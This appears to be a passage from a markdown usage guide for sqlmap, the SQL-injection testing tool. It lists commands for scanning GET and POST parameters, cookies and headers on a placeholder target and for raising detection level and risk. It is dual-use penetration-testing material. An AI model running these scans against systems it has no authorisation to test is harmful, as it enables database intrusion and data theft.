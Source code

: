 ### Simple GET Parameter Testing
```bash
# Test a single parameter
sqlmap -u "http://target.com/page.php?id=1"

# Test multiple parameters
sqlmap -u "http://target.com/search.php?q=test&category=1"

# Specify parameter to test
sqlmap -u "http://target.com/page.php?id=1&name=test" -p id
```

### POST Data Testing
```bash
# Test POST parameters
sqlmap -u "http://target.com/login.php" --data="username=admin&password=test"

# Test from saved request file
sqlmap -r request.txt

# Test specific POST parameter
sqlmap -u "http://target.com/login.php" --data="user=admin&pass=test" -p user
```

### Cookie and Header Testing
```bash
# Test cookies
sqlmap -u "http://target.com/page.php" --cookie="PHPSESSID=abc123; user_id=1"

# Test custom headers
sqlmap -u "http://target.com/api" --headers="X-API-Key: test123\nX-User-ID: 1"

# Test User-Agent header
sqlmap -u "http://target.com/page.php" --user-agent="Custom-Agent/1.0"
```

---

## 🔧 Detection and Exploitation Options

### Detection Levels and Risk
```bash
# Increase detection level (1-5, default: 1)
sqlmap -u "http://target.com/page.php?id=1" --level=3

# Increase risk level (1-3, default: 1)
sqlmap -u "http://target.com/page.php?id=1" --risk=2

# Maximum detection (use carefully on production)
sqlmap -u "http://target.com/page.php?id=1" --level=5 --risk=3
```
